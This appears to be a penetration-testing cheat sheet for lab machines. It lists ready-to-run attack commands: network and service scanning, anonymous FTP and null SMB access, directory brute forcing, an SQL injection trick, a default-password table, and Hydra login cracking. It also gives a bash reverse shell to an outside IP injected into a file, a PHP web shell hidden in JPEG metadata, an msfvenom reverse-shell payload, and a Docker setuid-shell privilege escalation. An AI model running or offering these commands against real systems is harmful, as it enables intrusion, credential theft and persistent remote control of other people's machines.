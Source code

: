 # Usefull Commands

## Search for up hosts
```bash
nmap -sn 10.129.150.229
```

## Search for port and service Version
```bash
nmap -sV -p 80 10.129.150.229
```

## Fast Search for common ports
```bash
nmap -F 10.129.150.229
```

## Uses common scripts with Scan
```bash
nmap -sC 10.129.155.61
```

## FTP with anonymous account
```bash
ftp 10.129.150.226
Connected to 10.129.150.226.
220 (vsFTPd 3.0.3)
Name (10.129.150.226:kali): anonymous
331 Please specify the password.
Password: (Password can be anything)
```

## Access SMB unauthenticated
```bash
mbclient -L 10.129.150.229 -U " "%" "
smbclient \\\\10.129.150.229\\WorkShares -U " "%" "
```

## RDP with xfreerdp
```bash
xfreerdp -u:Administrator -v:10.129.150.233
```

## Enumerate Dir Busting
```bash
gobuster dir -u http://10.129.150.236/ -w /usr/share/wordlists/dirb/common.txt
gobuster dir -u http://10.129.155.61/ -w /usr/share/wordlists/dirb/common.txt -x php
```

## SQL Injection with PHP
admin'# will comment code in PHP
for example when set out like below
```php
$sql="SELECT * FROM users WHERE username='$username' AND password='$password'";
```

## Connect to SQL
```bash
sql -u root -h 10.129.150.236
```

## Common Passwords
|username|password|
|---|---|
|admin|admin123|
|admin|root123|
|admin|password1|
|admin|administrator1|
|admin|changeme1|
|admin|password123|
|admin|qwerty123|
|admin|administrator123|
|admin|changeme123|
|admin|admin|
|guest|guest|
|user|user|
|root|root|
|administrator|password|

## Initiate bash from reverse shell with python
python3 -c "import pty;pty.spawn('/bin/bash')"

## Inject reverse shell into file owned by a user
echo "  ;/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.252/1234 0>&1' #" >> hackers

## Kerberos Enumeration
nmap $TARGET -p 88 --script krb5-enum-users --script-args krb5-enum-users.realm='test'

## HTTP Brute Forcing
```bash
target=10.0.0.1; gobuster -u http://$target -r -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt -t 150 -l | tee $target-gobuster
target=10.0.0.1; nikto -h http://$target:80 | tee $target-nikto
target=10.0.0.1; wpscan --url http://$target:80 --enumerate u,t,p | tee $target-wpscan-enum
```

## RPC / NetBios / SMB
```bash
rpcinfo -p $TARGET
nbtscan $TARGET
```
### list shares
```bash
smbclient -L //$TARGET -U ""
```

### null session
```bash
rpcclient -U "" $TARGET
smbclient -L //$TARGET
enum4linux $TARGET
```

## SMTP User Enumeration
```bash
smtp-user-enum -U /usr/share/wordlists/names.txt -t $TARGET -m 150
```

## Injecting PHP into JPEG
```bash
exiv2 -c'A "<?php system($_REQUEST['cmd']);?>"!' backdoor.jpeg
exiftool “-comment<=back.php” back.png
```

## Cracking Web Forums with Hydra
```bash
hydra 10.10.10.52 http-post-form -L /usr/share/wordlists/list "/endpoit/login:usernameField=^USER^&passwordField=^PASS^:unsuccessfulMessage" -s PORT -P /usr/share/wordlists/list
```

## Cracking Common Protocols with Hydra
```bash
hydra 10.10.10.52 -l username -P /usr/share/wordlists/list ftp|ssh|smb://10.0.0.1
```

## MSFVenom 
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.245 LPORT=443 -f c -a x86 --platform windows -b "\x00\x0a\x0d" -e x86/shikata_ga_nai
```

## Cracking ZIP files
```bash
fcrackzip -u -D -p /usr/share/wordlists/rockyou.txt bank-account.zip
```

## Docker Priv Esclation
```bash
echo -e "FROM ubuntu:14.04\nENV WORKDIR /stuff\nRUN mkdir -p /stuff\nVOLUME [ /stuff ]\nWORKDIR /stuff" > Dockerfile && docker build -t my-docker-image . && docker run -v $PWD:/stuff -t my-docker-image /bin/sh -c 'cp /bin/sh /stuff && chown root.root /stuff/sh && chmod a+s /stuff/sh' && ./sh -c id && ./sh
```
